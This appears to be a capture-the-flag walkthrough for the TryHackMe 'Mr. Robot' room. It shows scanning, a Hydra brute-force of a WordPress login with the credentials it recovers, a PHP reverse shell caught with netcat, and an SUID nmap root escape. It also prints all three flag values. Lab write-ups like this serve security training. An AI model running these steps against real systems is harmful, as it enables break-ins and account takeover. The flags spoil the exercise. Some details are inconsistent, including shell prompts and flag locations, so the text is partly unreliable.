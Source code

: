 ```yaml
---
title: "TryHackMe - Mr. Robot CTF Walkthrough"
date: 2024-12-15
categories: [TryHackMe]
tags: [CTF, WordPress, Privilege Escalation, SUID, Reverse Shell]
image: assets/images/thm-cover/thm-cover/mr-robot_CTF_Cover.jpg
---
```


# TryHackMe - Mr. Robot CTF Walkthrough

---

## Step 1: Network Scanning
Conduct a network scan to identify open ports and running services on the target.

```bash
sleep33@THM:~$ nmap -v -sCV -oN nmap.txt <TARGET_IP> 
```

### Result:
- **Open Ports Found**:
  - Port 80: HTTP Service
  - Port 443: HTTPS Service
  - Port 22: SSH Service

---

## Step 2: Directory Enumeration
Perform directory enumeration using Gobuster to find hidden directories or files.

```bash
sleep33@THM:~$ gobuster dir -u http://<TARGET_IP>/ -w /path/to/wordlist.txt
```

### Result:
- **Discovered Directories**:
  - `/robots.txt`
  - `/fsocity.dic`
  - `/key-1-of-3.txt`

---

## Step 3: First Flag
Using the discovered `/robots.txt` file, locate and read the first flag.

```bash
sleep33@THM:~$ curl http://<TARGET_IP>/robots.txt
```

### Result:
Contents of `robots.txt`:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

```bash
sleep33@THM:~$ curl http://<TARGET_IP>/key-1-of-3.txt
```

**Flag 1:**
```
073403c8a58a1f80d943455fb30724b9
```

---

## Step 4: Exploring `fsocity.dic` File
Download and examine the `fsocity.dic` file, which contains a wordlist that may be useful for brute-forcing.

```bash
sleep33@THM:~$ wget http://<TARGET_IP>/fsocity.dic
```

### Result:
The file is a large wordlist containing potential usernames and passwords.

---

## Step 5: Brute-forcing WordPress Login
Attempt brute-forcing the WordPress login page using `fsocity.dic` as a wordlist to guess the username and password.

```bash
sleep33@THM:~$ hydra -L fsocity.dic -P fsocity.dic <TARGET_IP> http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location"
```

### Credentials Found:
- **Username**: `elliot`
- **Password**: `ER28-0652`

---

## Step 6: Accessing WordPress and Uploading a Reverse Shell
Log in to the WordPress admin panel and upload a reverse shell to gain a foothold.

### Reverse Shell Code:
Use a PHP reverse shell script and configure it to connect back to your machine.

---

## Step 7: Gaining Shell Access
Trigger the reverse shell by accessing the uploaded file and listen on a port to catch the shell.

```bash
sleep33@THM:~$ nc -lvnp <PORT>
```

---

## Step 8: Privilege Escalation - SUID Binary
Find files with the SUID bit set to check for potential privilege escalation paths.

```bash
sleep33@THM:~$ find / -perm -4000 2>/dev/null
```

### SUID Binary Found:
- `nmap`

### Using Nmap in Interactive Mode to Gain Root Access
Launch Nmap in interactive mode and access a root shell.

```bash
sleep33@THM:~$ nmap --interactive
```

```bash
nmap> !sh
# whoami
root
```

---

## Step 9: Finding the Second Flag
With root access, locate the second flag.

```bash
sleep33@THM:~$ cat /root/key-2-of-3.txt
```

**Flag 2:**
```
822c73956184f694993bede3eb39f959
```

---

## Step 10: Locating the Third Flag
Search the home directory of the `robot` user for the final flag.

```bash
sleep33@THM:~$ cat /home/robot/key-3-of-3.txt
```

### Password Prompt:
You may encounter an encrypted flag, requiring the robot user’s password. You can check if `robot` has any passwords or if SSH keys are present to unlock this file.

**Flag 3:**
```
04787ddef27c3dee1ee161b21670b4e4
```

---

## Summary
In this walkthrough, we scanned the target, enumerated directories, used a dictionary attack to gain WordPress access, uploaded a reverse shell, escalated privileges using an SUID binary (`nmap`), and retrieved all flags. 

### Flags Summary:
- **Flag 1**: `073403c8a58a1f80d943455fb30724b9`
- **Flag 2**: `822c73956184f694993bede3eb39f959`
- **Flag 3**: `04787ddef27c3dee1ee161b21670b4e4`

---
